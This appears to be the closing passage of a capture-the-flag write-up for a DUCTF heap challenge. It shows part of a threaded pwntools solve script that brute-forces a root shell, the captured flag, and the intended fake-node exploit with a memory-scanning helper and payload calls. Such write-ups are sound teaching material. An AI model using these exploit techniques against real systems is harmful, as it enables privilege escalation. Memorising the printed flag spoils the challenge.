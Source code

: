 ```py
        f.write(b"\n\n")
        f.write(flag)

    log.critical("SOLVED")

    io.interactive()

def try_exploit():
    while True:
        io = start()
        try:
            exploit(io)
        except EOFError:
            print("Nope")
        io.close()

threads = []
for i in range(100):
    thread = threading.Thread(target=try_exploit)
    threads.append(thread)
    thread.start()

for thread in threads:
    thread.join()
```

And after few seconds, we have the flag

[solve.py](./solve.py)

**Flag:** `DUCTF{welcome_root!_9dbfa98e17b7af9dbc1}`

## Intended solution
As I mentioned before, my solution wasn't actually the intended one, but I did
consider the intended in my 17 approaches :D

Basically, instead of performing an unlink exploit, the node we add will already
look like a node of a root user. How? We just need to find an address, such that
it's value will point to a zero and 2 known values afterwards. \
This way we kind of fake a full entry, with a "valid" user struct into which we
can log in.

Now what I didn't do, and the author did, is write a script to search the memory. \
Here it is:
```py
from pwn import u64, p64

dat = open('mem.bin', 'rb').read()
qwords = [u64(dat[i:i+8]) for i in range(0, len(dat), 8)]
for i, qw in enumerate(qwords):
    if 0x400000 <= qw <= 0x405000:
        idx = (qw - 0x400000)//8
        if qwords[idx] == 0:
            print('ok!', hex(0x400000 + 8*i))
```
First using gdb we dump the process memory into `mem.bin`, and then find all 8 byte values
which point to a `0` in the binary itself. \
Then we can
```py
zero_ptr = 0x402eb8
sign_up(b'x', p64(zero_ptr))
sign_in(b'x', p64(zero_ptr))
remove_account()
sign_up(b'x', b'y')
sign_in(p64(0), p64(0))
```